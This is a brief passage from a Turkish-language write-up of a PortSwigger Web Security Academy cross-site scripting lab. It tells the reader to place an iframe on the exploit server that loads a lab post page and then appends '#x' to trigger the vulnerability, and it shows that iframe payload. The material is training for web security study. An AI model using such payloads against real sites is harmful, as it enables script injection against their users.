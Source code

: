 ![Untitled](Web%20Security%200x0B%20Web%20Security%20Academy%E2%80%99de%20XSS%20Cozm%20356d50d1b933477eb37796d3f6bc53d8/Untitled%208.png)

- Artık exploit server’a giderek iframe ile kurduğumuz yapıyı buraya koyabiliriz.

```python
<iframe src=https://0a69009b03868a8f81ffa70100b100a8.web-security-academy.net/post?postId=5 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

![Untitled](Web%20Security%200x0B%20Web%20Security%20Academy%E2%80%99de%20XSS%20Cozm%20356d50d1b933477eb37796d3f6bc53d8/Untitled%209.png)
